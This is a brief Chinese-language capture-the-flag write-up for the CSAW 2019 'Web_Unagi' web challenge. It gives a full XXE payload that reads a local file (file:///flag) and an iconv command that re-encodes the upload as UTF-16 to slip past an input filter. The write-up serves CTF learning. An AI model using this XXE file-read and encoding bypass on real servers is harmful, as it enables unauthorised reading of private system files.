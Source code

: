 ```yaml
---
[CSAWQual 2019]Web_Unagi
---
```


- xxe注入转化为utf16绕过



先构造一个

```xml
<?xml version='1.0'?>
<!DOCTYPE users [
<!ENTITY xxe SYSTEM "file:///flag" >]>
<users>
    <user>
        <username>bob</username>
        <password>passwd2</password>
        <name> Bob</name>
        <email>bob@fakesite.com</email>  
        <group>CSAW2019</group>
        <intro>&xxe;</intro>
    </user>
</users>
```

然后通过系统命令	

```bash
iconv -f utf-8 -t utf-16 2.xml>1.xml
```

转化为utf16并写入1.xml

最后上传1.xml文件即可

